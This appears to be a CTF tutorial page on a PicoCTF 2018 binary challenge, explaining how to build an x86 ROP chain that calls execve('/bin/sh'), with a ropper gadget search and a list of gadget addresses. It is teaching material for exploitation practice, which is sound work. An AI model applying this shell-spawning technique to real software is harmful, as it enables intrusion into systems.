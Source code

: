 ## Background Info

Using exactly the same technique as [shellcode]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/shellcode.md %}), we want to run the `execve` system call. To do that, we need the following registers set to these values:

- `eax = 0x0b`
- `ebx = &"/bin/sh"`
- `ecx = &0`
- `edx = &0`

At a minimum, you will need gadgets to set `eax`, `ebx`, `ecx`, and `edx`. You will also need a writeable block of memory to store the command string, and a primitive to move content from registers into writeable memory. 

<blockquote markdown="1">

**NOTE**: Here's how you'd find these gadgets using `ropper`:

```
$ ropper
(ropper)> file gets
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.  

(gets/ELF/x86)> search pop eax
[INFO] Searching for gadgets: pop eax

[INFO] File: gets
[...]
0x080b84d6: pop eax; ret;

(gets/ELF/x86)> search mov [%], eax
[INFO] Searching for gadgets: mov [%], eax

[INFO] File: gets
[...]
0x08054b4b: mov dword ptr [edx], eax; ret;
[...]
```
{:.contains-term}

</blockquote>

And here's a list of gadgets that I've found, but **you should figure out how to search binaries for your own gadgets**:

```
0x08054b4b: mov dword ptr [edx], eax; ret;
0x0806f19a: pop edx; ret;
0x0806f1c0: pop edx; pop ecx; pop ebx; ret;
0x0806f7a0: int 0x80; ret;
0x080b84d6: pop eax; ret;
```
